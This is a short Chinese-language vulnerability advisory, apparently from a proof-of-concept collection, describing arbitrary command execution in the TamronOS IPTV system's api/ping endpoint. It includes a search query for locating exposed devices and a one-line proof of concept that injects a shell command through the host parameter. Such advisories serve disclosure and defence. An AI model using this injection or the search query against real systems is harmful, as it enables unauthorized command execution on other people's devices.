 # TamronOS IPTV系统 ping 任意命令执行漏洞

# TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

```
TamronOS IPTV系统
```

## 网络测绘

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](/images/202202101926621.png)



漏洞POC为



```plain
/api/ping?count=5&host=;id;
```



![](/images/202202101927800.png)

